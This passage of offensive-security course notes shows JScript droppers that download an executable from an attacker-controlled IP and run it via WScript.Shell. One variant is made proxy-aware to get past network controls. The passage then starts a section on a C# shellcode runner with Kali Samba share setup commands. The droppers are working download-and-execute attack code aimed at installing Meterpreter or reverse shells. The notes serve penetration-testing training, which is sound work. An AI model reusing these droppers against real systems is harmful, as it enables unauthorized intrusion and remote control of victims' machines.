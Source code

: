 ```js
    Stream.Position = 0;

    Stream.SaveToFile("met.exe", 2);
    Stream.Close();
}

var r = new ActiveXObject("WScript.Shell").Run("met.exe");
```

Make it proxy-aware with the `setProxy` method

### run2.js

```js
var url = "http://192.168.119.120/shell.exe"
var Object = WScript.CreateObject("MSXML2.ServerXMLHTTP");
Object.setProxy(2, "192.168.X.12:3128", "")

Object.open('GET', url, false);
Object.send();

if (Object.status == 200)
{
    var Stream = WScript.CreateObject('ADODB.Stream');

    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.responseBody);
    Stream.Position = 0;

    Stream.SaveToFile("shell.exe", 2);
    Stream.Close();
}

var r = new ActiveXObject("WScript.Shell").Run("shell.exe");
```

## Shellcode Runner in C#

Setup Development Environment

Create a Kali Samba share for our code

```bash
sudo apt install samba
sudo mv /etc/samba/smb.conf /etc/samba/smb.conf.old
sudo nano /etc/samba/smb.conf
```

`smb.conf`

```
[visualstudio]
 path = /home/kali/data
 browseable = yes
 read only = no
```
